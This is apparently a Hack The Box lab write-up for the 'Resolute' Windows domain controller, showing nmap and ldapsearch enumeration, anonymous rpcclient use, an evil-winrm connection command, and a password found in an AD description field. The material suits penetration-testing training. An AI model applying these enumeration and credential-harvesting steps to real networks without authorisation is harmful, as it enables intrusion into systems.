

# HTB - Resolute

## Overview



A medium-difficulty box that was fairly straightforward.  Privilege escalation required going through two different users and taking advantage of Windows Server group permissions.  It ended with a privilege escalation route that required simple dll injection, and a bit of quick reaction.

## Useful Skills and Tools

#### Connect to a Windows Server through Windows Remote Management \(WinRM\)

`evil-winrm -i <ip> -u <username> -p '<password>'`

#### Using ldapsearch to enumerate a Windows domain

`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"`

#### Enumerating users on a Windows domain with rpcclient \(without credentials\)

> rpcclient -U "" -N &lt;ip&gt;
>
> * rpcclient $&gt; enumdomusers
> * rpcclient $&gt; queryuser &lt;user\_RID&gt;

#### Useful Windows groups

* Remote Management Users
* DnsAdmins

## Enumeration

### Nmap scan

First, as always...I started with an nmap scan of `10.10.10.169`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all TCP ports, `-sC` runs a TCP connect scan, `-sV` does a service scan, `-oA <name>` saves all types of output \(`.nmap`,`.gnmap`, and `.xml`\) with filenames of `<name>`.

```text
zweilos@kalimaa:~/htb/resolute$ nmap -sC -sV -oA resolute 10.10.10.169

Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-23 08:21 EDT
Nmap scan report for 10.10.10.169
Host is up (0.15s latency).
Not shown: 989 closed ports
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020-05-23 12:32:40Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/23%Time=5EC91562%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|clock-skew: mean: 2h30m51s, deviation: 4h02m32s, median: 10m49s
| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: Resolute
| NetBIOS computer name: RESOLUTE\x00
| Domain name: megabank.local
| Forest name: megabank.local
| FQDN: Resolute.megabank.local
| System time: 2020-05-23T05:33:05-07:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020-05-23T12:33:02
|_ start_date: 2020-05-23T10:27:48

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.35 seconds
```

From these results we can see there are a lot of ports open! Since ports `88 - kerberos`, `135 & 139 - Remote Procedure Call`, `389 - LDAP`, and `445 - SMB` are all open it is safe to assume that this box is running Active Directory on a Windows machine. The host script also validates this by reporting to us that this is running `Windows Server 2016 Standard 14393`.

### ldapsearch

Since I had so many options, I decided to start by enumerating Active Directory through LDAP using `ldapsearch`. This command is built into many linux distros and returned a wealth of information. I snipped out huge chunks of the output in order to reduce information overload as most of it was not particularly interesting in this case.

```text
zweilos@kalimaa:~/htb/resolute$ ldapsearch -H ldap://10.10.10.169:3268 -x -LLL -s sub -b "DC=megabank,DC=local"

dn: DC=megabank,DC=local
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=megabank,DC=local
instanceType: 5
whenCreated: 20190925132822.0Z
whenChanged: 20200523140234.0Z
subRefs: DC=ForestDnsZones,DC=megabank,DC=local
subRefs: DC=DomainDnsZones,DC=megabank,DC=local
subRefs: CN=Configuration,DC=megabank,DC=local
uSNCreated: 4099
uSNChanged: 147500
name: megabank
objectGUID:: RungtOfLt0KPoFxM7C/lqg==
replUpToDateVector:: AgAAAAAAAAAVAAAAAAAAADv+xw5NT59AgbZ+xJHTUowawAEAAAAAAAxz9
 xMDAAAAwh0pHcgb2UeivFJL4Q8QZAigAAAAAAAAETWfEwMAAABwEWNEnJ/JTqZrXDzeu6t8HOABAA
 AAAABGe/cTAwAAAKo4iGFkQ2tNttYznkdNa8gHkAAAAAAAAFownxMDAAAABaKyYvsphkGwNf2+l/T
 OcQmwAAAAAAAA0DefEwMAAABgnQ5ls1S9RbRniAcF/EnhBXAAAAAAAAA8IJ8TAwAAANkKY2p5o8JJ
 iWThb22GsFkfEAIAAAAAAPEu+BMDAAAANjjJgh690k6SHEyv8j3GbwzgAAAAAAAAQB/mEwMAAAARO
 oWDI5jaSqqD5vcle3fBGKABAAAAAAAKafcTAwAAANC7S4v1tdVEvvnXks56Pzsb0AEAAAAAAHZ39x
 MDAAAAClc6jW+1nEe6iH9KjbQfHxVwAQAAAAAALiT3EwMAAADYJfudVPvpSK11CCwhkf7sBoAAAAA
 AAADpLJ8TAwAAACXlzaE+3D1MqNP2Y3JBf0UiQAIAAAAAAPm92RQDAAAAI0kCuedEgkuD1X4NGZry
 vANQAAAAAAAAEQifEwMAAABooZzLa39qTIhGDRTmkPLbDfAAAAAAAAA67/YTAwAAAGQiEtJziTtNr
 YUBSO25WFYd8AEAAAAAAAl99xMDAAAApE8+2ZurlkOpfSCKxJW1hiEwAgAAAAAAKlP4EwMAAAAioK
 HkPq1oSIGNZVqBCYLmBGAAAAAAAABdFJ8TAwAAALuMxOadAYNJgTaOC1xgILUZsAEAAAAAAA1u9xM
 DAAAAJX069+D2702y4t2ALvAqsxeQAQAAAAAAu2D3EwMAAAD5MMD/nWa2S5M5V1KBxVCmHgACAAAA
 AAAHHfgTAwAAAA==
objectSid:: AQQAAAAAAAUVAAAAaeAGU04VmrOsCGHW
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=mega
 bank,DC=local
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=megabank,DC=local
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=meg
 abank,DC=local
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=megabank,DC=local
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 megabank,DC=local
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=m
 egabank,DC=local
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=meg
 abank,DC=local
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=megabank,
 DC=local
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=megabank,DC=local
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=megaba
 nk,DC=local
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=megabank,D
 C=local
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=megabank,DC=local
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=megabank,DC=local;0]
dSCorePropagationData: 16010101000000.0Z
masteredBy: CN=NTDS Settings,CN=RESOLUTE,CN=Servers,CN=Default-First-Site-Name
 ,CN=Sites,CN=Configuration,DC=megabank,DC=local
msDs-masteredBy: CN=NTDS Settings,CN=RESOLUTE,CN=Servers,CN=Default-First-Site
 -Name,CN=Sites,CN=Configuration,DC=megabank,DC=local
msDS-IsDomainFor: CN=NTDS Settings,CN=RESOLUTE,CN=Servers,CN=Default-First-Sit
 e-Name,CN=Sites,CN=Configuration,DC=megabank,DC=local
dc: megabank

dn: CN=Configuration,DC=megabank,DC=local

dn: CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: container
cn: Users
description: Default container for upgraded user accounts
distinguishedName: CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190925132831.0Z
whenChanged: 20190925132831.0Z
uSNCreated: 5888
uSNChanged: 5888
name: Users
objectGUID:: KtUO0OCAmEGB1jACzfq3zw==
objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105219.0Z
dSCorePropagationData: 20190926123501.0Z
dSCorePropagationData: 20190925132912.0Z
dSCorePropagationData: 16010714042433.0Z

dn: CN=Computers,DC=megabank,DC=local
objectClass: top
objectClass: container
cn: Computers
description: Default container for upgraded computer accounts
distinguishedName: CN=Computers,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190925132831.0Z
whenChanged: 20190925132831.0Z
uSNCreated: 5889
uSNChanged: 5889
name: Computers
objectGUID:: /8XiQRUSvkWcoUiDWK1YCA==
objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105218.0Z
dSCorePropagationData: 20190926123501.0Z
dSCorePropagationData: 20190925132912.0Z
dSCorePropagationData: 16010714042433.0Z

dn: OU=Domain Controllers,DC=megabank,DC=local
objectClass: top
objectClass: organizationalUnit
ou: Domain Controllers
description: Default container for domain controllers
distinguishedName: OU=Domain Controllers,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190925132831.0Z
whenChanged: 20190925132831.0Z
uSNCreated: 6031
uSNChanged: 6031
name: Domain Controllers
objectGUID:: 0msxEif+OkGQ0Ecbb150lw==
objectCategory: CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=megabank,
 DC=local
gPLink: [LDAP://CN={6AC1786C-016F-11D2-945F-00C04fB984F9},CN=Policies,CN=Syste
 m,DC=megabank,DC=local;0]
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105218.0Z
dSCorePropagationData: 20190926123501.0Z
dSCorePropagationData: 20190925132912.0Z
dSCorePropagationData: 16010714042433.0Z

dn: CN=System,DC=megabank,DC=local
objectClass: top
objectClass: container
cn: System
description: Builtin system settings
distinguishedName: CN=System,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190925132831.0Z
whenChanged: 20190925132831.0Z
uSNCreated: 5890
uSNChanged: 5890
name: System
objectGUID:: H9L5QEkO9U+/MQrYP7xFBA==
objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105218.0Z
dSCorePropagationData: 20190926123501.0Z
dSCorePropagationData: 20190925132912.0Z
dSCorePropagationData: 16010714042433.0Z

...snipped for brevity. Nothing surprising or useful so far. The guest account is potentially open, though...

dn: CN=Administrator,CN=Users,DC=megabank,DC=local

dn: CN=Guest,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Guest
description: Built-in account for guest access to the computer/domain
distinguishedName: CN=Guest,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190925132831.0Z
whenChanged: 20190925132831.0Z
uSNCreated: 8197
memberOf: CN=Guests,CN=Builtin,DC=megabank,DC=local
uSNChanged: 8197
name: Guest
objectGUID:: dVs0v8Y8kk6A6yJE8D5mmw==
userAccountControl: 66082
primaryGroupID: 514
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW9QEAAA==
sAMAccountName: Guest
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105219.0Z
dSCorePropagationData: 20190925132912.0Z
dSCorePropagationData: 16010101181633.0Z

...snipped for brevity.  There are lots of built-in groups in Active Directory.  None had any members in this case.
```

The `Remote Management Users` group contains the user named `Melanie Purkis` and the group `Contractors`. We should keep an eye out for more information about those, as Windows Remote Management is an easy way to access a shell on a Windows machine remotely.

```text
dn: CN=Remote Management Users,CN=Builtin,DC=megabank,DC=local
objectClass: top
objectClass: group
cn: Remote Management Users
description: Members of this group can access WMI resources over management pr
 otocols (such as WS-Management via the Windows Remote Management service). Th
 is applies only to WMI namespaces that grant access to the user.
member: CN=Melanie Purkis,CN=Users,DC=megabank,DC=local
member: CN=Contractors,OU=Groups,DC=megabank,DC=local
distinguishedName: CN=Remote Management Users,CN=Builtin,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190925132831.0Z
whenChanged: 20191204104251.0Z
uSNCreated: 8232
uSNChanged: 131163
name: Remote Management Users
objectGUID:: Kxx9W8yL1kS8cTGtZ6qiIQ==
objectSid:: AQIAAAAAAAUgAAAARAIAAA==
sAMAccountName: Remote Management Users
sAMAccountType: 536870912
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105218.0Z
dSCorePropagationData: 20190925132912.0Z
dSCorePropagationData: 16010101181217.0Z

...snipped some more for brevity...
```

This host named `RESOLUTE` looks important. It contains the DNS server, Kerberos server, and is running LDAP and RPC. It is also in the `Domain Controllers` OU! Looks like a good target.

```text
dn: CN=RESOLUTE,OU=Domain Controllers,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: RESOLUTE
distinguishedName: CN=RESOLUTE,OU=Domain Controllers,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190925132911.0Z
whenChanged: 20200523140315.0Z
displayName: RESOLUTE$
uSNCreated: 12293
uSNChanged: 147507
name: RESOLUTE
objectGUID:: AgTwPAZHqkiPANQH3ROslQ==
userAccountControl: 532480
primaryGroupID: 516
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW6AMAAA==
sAMAccountName: RESOLUTE$
sAMAccountType: 805306369
serverReferenceBL: CN=RESOLUTE,CN=Servers,CN=Default-First-Site-Name,CN=Sites,
 CN=Configuration,DC=megabank,DC=local
dNSHostName: Resolute.megabank.local
servicePrincipalName: Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/Resolute.megab
 ank.local
servicePrincipalName: ldap/Resolute.megabank.local/ForestDnsZones.megabank.loc
 al
servicePrincipalName: ldap/Resolute.megabank.local/DomainDnsZones.megabank.loc
 al
servicePrincipalName: DNS/Resolute.megabank.local
servicePrincipalName: GC/Resolute.megabank.local/megabank.local
servicePrincipalName: HOST/Resolute.megabank.local/MEGABANK
servicePrincipalName: HOST/Resolute.megabank.local/megabank.local
servicePrincipalName: ldap/Resolute.megabank.local/MEGABANK
servicePrincipalName: ldap/Resolute.megabank.local
servicePrincipalName: ldap/Resolute.megabank.local/megabank.local
servicePrincipalName: RestrictedKrbHost/Resolute.megabank.local
servicePrincipalName: HOST/Resolute.megabank.local
servicePrincipalName: RestrictedKrbHost/RESOLUTE
servicePrincipalName: HOST/RESOLUTE/MEGABANK
servicePrincipalName: HOST/RESOLUTE
servicePrincipalName: ldap/RESOLUTE/MEGABANK
servicePrincipalName: ldap/RESOLUTE
servicePrincipalName: RPC/b9024923-44e7-4b82-83d5-7e0d199af2bc._msdcs.megabank
 .local
servicePrincipalName: E3514235-4B06-11D1-AB04-00C04FC2DCD2/b9024923-44e7-4b82-
 83d5-7e0d199af2bc/megabank.local
servicePrincipalName: ldap/b9024923-44e7-4b82-83d5-7e0d199af2bc._msdcs.megaban
 k.local
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105218.0Z
dSCorePropagationData: 20190925132912.0Z
dSCorePropagationData: 16010101181633.0Z
lastLogonTimestamp: 132347161950202079
msDFSR-ComputerReferenceBL: CN=DC,CN=Topology,CN=Domain System Volume,CN=DFSR-
 GlobalSettings,CN=System,DC=megabank,DC=local
```

```text
dn: CN=krbtgt,CN=Users,DC=megabank,DC=local

dn: CN=Domain Computers,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: group
cn: Domain Computers
description: All workstations and servers joined to the domain
distinguishedName: CN=Domain Computers,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190925132912.0Z
whenChanged: 20190925132912.0Z
uSNCreated: 12330
uSNChanged: 12332
name: Domain Computers
objectGUID:: OMjXRDuSdUqo8LRbrxuq2A==
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWAwIAAA==
sAMAccountName: Domain Computers
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105219.0Z
dSCorePropagationData: 20190925132912.0Z
dSCorePropagationData: 16010101181633.0Z

dn: CN=Domain Controllers,CN=Users,DC=megabank,DC=local

dn: CN=Schema Admins,CN=Users,DC=megabank,DC=local

dn: CN=Enterprise Admins,CN=Users,DC=megabank,DC=local

dn: CN=Cert Publishers,CN=Users,DC=megabank,DC=local

dn: CN=Domain Admins,CN=Users,DC=megabank,DC=local

dn: CN=Domain Users,CN=Users,DC=megabank,DC=local

dn: CN=Domain Guests,CN=Users,DC=megabank,DC=local

dn: CN=Server Operators,CN=Builtin,DC=megabank,DC=local

dn: CN=Account Operators,CN=Builtin,DC=megabank,DC=local

...snipped for brevity...
```

The `DnsAdmins` group contains the `Contractors` group. If there are any members of the `Contractors` group they have the permissions for administration of the DNS servers.

```text
dn: CN=DnsAdmins,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: group
cn: DnsAdmins
description: DNS Administrators Group
member: CN=Contractors,OU=Groups,DC=megabank,DC=local
distinguishedName: CN=DnsAdmins,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190925132951.0Z
whenChanged: 20190926123925.0Z
uSNCreated: 12483
uSNChanged: 12891
name: DnsAdmins
objectGUID:: JTOjhPe4qE6WaKXqTZZLPA==
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWTQQAAA==
sAMAccountName: DnsAdmins
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105219.0Z
dSCorePropagationData: 16010101000417.0Z

...snipped for brevity...
```

So there is a SYSVOL share. We should try to connect to it and see if we can retrieve any useful information.

```text
dn: CN=SYSVOL Share,CN=Content,CN=Domain System Volume,CN=DFSR-GlobalSettings,
 CN=System,DC=megabank,DC=local
objectClass: top
objectClass: msDFSR-ContentSet
cn: SYSVOL Share
distinguishedName: CN=SYSVOL Share,CN=Content,CN=Domain System Volume,CN=DFSR-
 GlobalSettings,CN=System,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190925133436.0Z
whenChanged: 20190925133436.0Z
uSNCreated: 12575
uSNChanged: 12575
name: SYSVOL Share
objectGUID:: WhGF1pCQNE+2cJZxQJcCSA==
objectCategory: CN=ms-DFSR-ContentSet,CN=Schema,CN=Configuration,DC=megabank,D
 C=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105219.0Z
dSCorePropagationData: 16010101000417.0Z
```

The `Contractors` group is a member of both the `DnsAdmins` and `Remote Management Users` groups. If there are any users in this group we should target them.

```text
dn: CN=Contractors,OU=Groups,DC=megabank,DC=local
objectClass: top
objectClass: group
cn: Contractors
description: Contractors
member: CN=Ryan Bertrand,OU=Contractors,OU=MegaBank Users,DC=megabank,DC=local
distinguishedName: CN=Contractors,OU=Groups,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190926123745.0Z
whenChanged: 20190927140221.0Z
displayName: Contractors
uSNCreated: 12887
memberOf: CN=DnsAdmins,CN=Users,DC=megabank,DC=local
memberOf: CN=Remote Management Users,CN=Builtin,DC=megabank,DC=local
uSNChanged: 16397
name: Contractors
objectGUID:: vvcvnwX4H0mv8TZTZTh01w==
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWTwQAAA==
sAMAccountName: Contractors
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105218.0Z
dSCorePropagationData: 16010101000417.0Z
```

A potential hostname for a Kerberos server? `MS02.megabank.local`

```text
dn: CN=MS02,CN=Computers,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: MS02
distinguishedName: CN=MS02,CN=Computers,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190927103355.0Z
whenChanged: 20190927103508.0Z
uSNCreated: 12985
uSNChanged: 12993
name: MS02
objectGUID:: EUcqZX9j80WiVXDUbMQusw==
userAccountControl: 4096
primaryGroupID: 515
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWUAQAAA==
sAMAccountName: MS02$
sAMAccountType: 805306369
dNSHostName: MS02.megabank.local
servicePrincipalName: RestrictedKrbHost/MS02
servicePrincipalName: HOST/MS02
servicePrincipalName: RestrictedKrbHost/MS02.megabank.local
servicePrincipalName: HOST/MS02.megabank.local
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105218.0Z
dSCorePropagationData: 16010101000417.0Z
lastLogonTimestamp: 132140541083313104

...snipped for brevity...

dn: OU=MegaBank Users,DC=megabank,DC=local
objectClass: top
objectClass: organizationalUnit
ou: MegaBank Users
distinguishedName: OU=MegaBank Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190927105402.0Z
whenChanged: 20190927105412.0Z
uSNCreated: 13039
uSNChanged: 13043
name: MegaBank Users
objectGUID:: 1pYNkCgRRkm9nsXym6QjWw==
objectCategory: CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=megabank,
 DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105412.0Z
dSCorePropagationData: 20190927105402.0Z
dSCorePropagationData: 16010101000001.0Z

dn: OU=Employees,OU=MegaBank Users,DC=megabank,DC=local
objectClass: top
objectClass: organizationalUnit
ou: Employees
distinguishedName: OU=Employees,OU=MegaBank Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190927105412.0Z
whenChanged: 20190927105412.0Z
uSNCreated: 13041
uSNChanged: 13042
name: Employees
objectGUID:: 2v2EwqA+1UmhxBzZ05d5tw==
objectCategory: CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=megabank,
 DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105412.0Z
dSCorePropagationData: 20190927105412.0Z
dSCorePropagationData: 16010101000001.0Z

dn: OU=Contractors,OU=MegaBank Users,DC=megabank,DC=local
objectClass: top
objectClass: organizationalUnit
ou: Contractors
distinguishedName: OU=Contractors,OU=MegaBank Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20190927105423.0Z
whenChanged: 20190927105423.0Z
uSNCreated: 13044
uSNChanged: 13045
name: Contractors
objectGUID:: r5eBoDh/rU+q+dzvx/0s2Q==
objectCategory: CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=megabank,
 DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105423.0Z
dSCorePropagationData: 16010101000001.0Z
```

The user `ryan` is a member of the `Contractors` group. This may be very useful.

```text
dn: CN=Ryan Bertrand,OU=Contractors,OU=MegaBank Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Bertrand
sn: Bertrand
givenName: Ryan
distinguishedName: CN=Ryan Bertrand,OU=Contractors,OU=MegaBank Users,DC=megaba
 nk,DC=local
instanceType: 4
whenCreated: 20190927105650.0Z
whenChanged: 20200523160002.0Z
displayName: Ryan Bertrand
uSNCreated: 13048
memberOf: CN=Contractors,OU=Groups,DC=megabank,DC=local
uSNChanged: 148333
name: Ryan Bertrand
objectGUID:: 44OMhL5sPk26z6p7032mkQ==
userAccountControl: 66048
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWUQQAAA==
sAMAccountName: ryan
sAMAccountType: 805306368
userPrincipalName: ryan@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927105650.0Z
dSCorePropagationData: 16010101000001.0Z
lastLogonTimestamp: 132347162245358799
```

The next user had some interesting information in the `description` field:

```text
dn: CN=Marko Novak,OU=Employees,OU=MegaBank Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Marko Novak
sn: Novak
description: Account created. Password set to Welcome123!
givenName: Marko
distinguishedName: CN=Marko Novak,OU=Employees,OU=MegaBank Users,DC=megabank,D
 C=local
instanceType: 4
whenCreated: 20190927131714.0Z
whenChanged: 20191203132427.0Z
displayName: Marko Novak
uSNCreated: 13110
uSNChanged: 69792
name: Marko Novak
objectGUID:: 8oIRSXQNmEW4iTLjzuwCpw==
userAccountControl: 66048
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWVwQAAA==
sAMAccountName: marko
sAMAccountType: 805306368
userPrincipalName: marko@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927131714.0Z
dSCorePropagationData: 16010101000001.0Z
```

So it seems we have a potential username and password! `marko:Welcome123!`.

```text
dn: CN=Sunita Rahman,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Sunita Rahman
distinguishedName: CN=Sunita Rahman,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203212629.0Z
whenChanged: 20191203212629.0Z
uSNCreated: 102643
uSNChanged: 102647
name: Sunita Rahman
objectGUID:: PFIxt212wEKiVig4AzsNWA==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWyRkAAA==
sAMAccountName: sunita
sAMAccountType: 805306368
userPrincipalName: sunita@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Abigail Jeffers,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Abigail Jeffers
distinguishedName: CN=Abigail Jeffers,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203212730.0Z
whenChanged: 20191203212730.0Z
uSNCreated: 102665
uSNChanged: 102669
name: Abigail Jeffers
objectGUID:: vQWXVtKcPkyVwaV63+Npkw==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWyhkAAA==
sAMAccountName: abigail
sAMAccountType: 805306368
userPrincipalName: abigail@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Marcus Strong,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Marcus Strong
distinguishedName: CN=Marcus Strong,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203212759.0Z
whenChanged: 20191203212759.0Z
uSNCreated: 102672
uSNChanged: 102676
name: Marcus Strong
objectGUID:: jNmnh/cQ802Nl5GZrhO7GA==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWyxkAAA==
sAMAccountName: marcus
sAMAccountType: 805306368
userPrincipalName: marcus@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Sally May,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Sally May
distinguishedName: CN=Sally May,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203212829.0Z
whenChanged: 20191203212829.0Z
uSNCreated: 102694
uSNChanged: 102698
name: Sally May
objectGUID:: TAOtWyKVhEuFjVNlpURC4Q==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWzBkAAA==
sAMAccountName: sally
sAMAccountType: 805306368
userPrincipalName: sally@megabank.local
